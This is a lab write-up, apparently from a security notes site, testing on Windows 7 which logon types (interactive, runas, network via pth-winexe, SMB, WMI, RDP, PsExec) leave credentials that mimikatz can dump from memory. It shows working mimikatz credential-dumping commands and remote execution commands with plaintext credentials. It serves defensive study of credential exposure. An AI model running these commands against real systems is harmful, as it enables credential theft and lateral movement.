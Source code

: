 ```yaml
---
description: >-
  This lab explores/compares when credentials are susceptible to credential
  dumping.
---
```


# Network vs Interactive Logons

Tested against Microsoft Windows 7 Professional 6.1.7601 Service Pack 1 Build 7601

## Interactive Logon \(2\): Initial Logon

Let's make a base password dump \(using mimikatz\) on the victim system to see what we can get before we start logging on to the victim with other methods. To test this, the victim system was rebooted and no attempts to login to the system were made, except for the interactive logon to get access to the console:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test1.png)

## Interactive Logon \(2\) via runas and Local Account

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```text
runas /user:low cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test2.png)

## Interactive Logon \(2\) via runas and Domain Account

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```text
runas /user:spot@offense cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test3.png)

## New Credentials \(9\) via runas with /netonly

```text
runas /user:low /netonly cmd
```

Event logs suggest the logon of type 9 and also for the user `mantvydas`, although we requested to logon as the user `low`:

![](../../.gitbook/assets/pwdump-runas-netonly.png)

Logon type 9 means that the any network connections originating from our new process will use the new credentials, which in our case are credentials of the user `low`. These credentials, however still get cached on the victim system:

![](../../.gitbook/assets/pwdump-runas-netonly-dump.png)

## Network Logon \(3\) with Local Account

Imagine an Incident Responder is connecting to a victim system using that machine's local account remotely to inspect it for a compromise using pth-winexe:

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
root@~# pth-winexe //10.0.0.2 -U back%password cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Mimikatz shows no credentials got stored in memory for the user `back`.

## Network Logon \(3\) with Domain Account

Imagine an Incident Responder is connecting to a victim system using a privileged domain account remotely to inspect it for a compromise using pth-winexe, a simple SMB mount or WMI:

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
root@~# pth-winexe //10.0.0.2 -U offense/spot%password cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```text
PS C:\Users\spot> net use * \\10.0.0.2\test /user:offense\spotless spotless
Drive Z: is now connected to \\10.0.0.2\test.

The command completed successfully.

PS C:\Users\spot> wmic /node:10.0.0.2 /user:offense\administrator process call create calc
Enter the password :********

Executing (Win32_Process)->Create()
Method execution successful.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Mimikatz shows no credentials got stored in memory for `offense\spotless` or `offense\administrator`.

## Network Interactive Logon \(10\) with Domain Account

RDPing to the victim system:

![](../../.gitbook/assets/pwdum-test5.png)

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test6.png)

Note that any remote logon with a graphical UI is logged as logon event type 10 and the credentials stay on the logged on system:

![](../../.gitbook/assets/pwdump-logon10.png)

## PsExec From An Elevated Prompt

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
PS C:\tools\PSTools> whoami.exe
offense\spot

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/pwdump-psexec-no-atlernate-credentials.png)

Mimikatz shows no credentials got stored in memory for `offense\spot`

Note how all the logon events are of type 3 - network logons and read on to the next section.

## PsExec + Alternate Credentials

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```text
.\PsExec64.exe \\10.0.0.2 -u offense\spot -p password cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-psexec-supplied-creds.png)

Looking at the event logs, a logon type 2 \(interactive\) is observed amongst the network logon 3, which explains why credentials were successfully dumped in the above test:

![](../../.gitbook/assets/pwdump-psexec-interactive-logon.png)

![](../../.gitbook/assets/pwdump-psexec-eventlog.png)

## Observations

Network logons do not get cached in memory except for when using `PsExec` with alternate credentials specified via the `-u` switch. 

Interactive and remote interactive logons do get cached and can get easily dumped with Mimikatz.

Inspired by:

{% embed url="https://digital-forensics.sans.org/blog/2012/02/21/protecting-privileged-domain-account-safeguarding-password-hashes" %}

